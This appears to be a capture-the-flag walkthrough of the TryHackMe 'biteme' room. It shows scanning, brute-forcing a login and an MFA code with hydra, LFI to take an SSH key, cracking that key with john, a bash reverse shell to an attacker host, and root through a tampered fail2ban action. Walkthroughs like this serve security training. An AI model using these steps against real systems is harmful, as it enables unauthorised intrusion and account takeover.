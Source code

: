 # biteme

**Room Link:** [https://tryhackme.com/room/biteme](https://tryhackme.com/room/biteme)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (748).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (749).png" alt=""><figcaption></figcaption></figure>



## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



<figure><img src="../../.gitbook/assets/image (753).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (752).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (750).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (751).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/console -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x phps
```

<figure><img src="../../.gitbook/assets/image (754).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (757).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (755).png" alt=""><figcaption></figcaption></figure>

## **Finding username**

**Kali**

```
echo 6a61736f6e5f746573745f6163636f756e74 | xxd -r -p
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Recreating login

I merged configs.phps,  functions.php and index.phps into a index.php file. Made some modifications so that it could run  when hosted locally without the mfa part of the code so then I can try to bruteforce the credentials.

**index.php**

```
 <?php
session_start();
$showError = false;
define('LOGIN_USER', '6a61736f6e5f746573745f6163636f756e74'); 

function is_valid_user($user) {
    $user = bin2hex($user);
    return $user === LOGIN_USER;
}
// @fred let's talk about ways to make this more secure but still flexible
function is_valid_pwd($pwd) {
    $hash = md5($pwd);
    return substr($hash, -3) === '001';
} 


if (isset($_POST['user']) && isset($_POST['pwd'])) {
        if (is_valid_user($_POST['user']) && is_valid_pwd($_POST['pwd'])) {
            setcookie('user', $_POST['user'], 0, '/');
            setcookie('pwd', $_POST['pwd'], 0, '/');
            header('Location: mfa.php');
            exit();
        } else {
            $showError = true;
        }
  }  
?>

<!doctype html>
<html lang="en">
 <body class="text-center">
    <form action="index.php" method="post" class="form-signin" >
        <h1 class="h3 mb-3 font-weight-normal">Please sign in</h1>
        <input type="text" name="user" class="form-control" placeholder="Username" required>
        <input type="password" name="pwd" class="form-control" placeholder="Password" required>
        <button class="btn btn-lg btn-primary btn-block" type="submit">Sign in</button>
        <?php if ($showError): ?><p class="mt-3 mb-3 text-danger">Incorrect details</p><?php endif ?>
    </form>
  </body>
</html>

```

**Kali**

```
echo MFA > mfa.php
php -S 127.0.0.1:81
```

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

## Bruteforce

**Kali**

```
hydra -l jason_test_account -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 81 http-post-form "/index.php:user=^USER^&pwd=^PASS^:F=Incorrect details"
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Browser**

```
Username: jason_test_account
Password: violet
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python -c "with open('output.txt', 'w') as file: [file.write(f'{str(i).zfill(4)}\n') for i in range(10000)]"
```

**Kali**

```
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra/
./configure
make
make install
cd ..

thc-hydra/hydra -l jason_test_account -P output.txt $VICTIM http-post-form "/console/mfa.php:code=^PASS^:H=Cookie: PHPSESSID=hshqcs3n42r9qjs5b2850r9alt; user=jason_test_account; pwd=violet:F=Incorrect code" -T 64
```



<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (758).png" alt=""><figcaption></figcaption></figure>

## LFI

<figure><img src="../../.gitbook/assets/image (759).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600
/opt/john/ssh2john.py id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (760).png" alt=""><figcaption></figcaption></figure>

## TCP/22 - SSH

**Kali**

```
ssh -i id_rsa jason@$VICTIM 
Password: 1a2b3c4d
```

<figure><img src="../../.gitbook/assets/image (761).png" alt=""><figcaption></figcaption></figure>



Lateral Movement

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (762).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo '#!/bin/bash' > shell.sh
echo 'sh -i >& /dev/tcp/$KALI/1337 0>&1' >> shell.sh
```

**Kali**

```
nc -lvnp 1338
```

**Victim**

```
sudo -u fred ./shell.sh
```

<figure><img src="../../.gitbook/assets/image (763).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

## Privilege Escalation&#x20;

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (764).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat /etc/fail2ban/jail.conf
```

<figure><img src="../../.gitbook/assets/image (768).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
ls -la /etc/fail2ban/action.d/iptables-multiport.conf
vi /etc/fail2ban/action.d/iptables-multiport.conf
```

<figure><img src="../../.gitbook/assets/image (765).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (770).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo /bin/systemctl restart fail2ban
```

Now we need to enter bad passwords until we've triggerd the ban action

**Kali**

```
ssh root@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (769).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
/bin/bash -p
whoami
```

<figure><img src="../../.gitbook/assets/image (771).png" alt=""><figcaption></figcaption></figure>



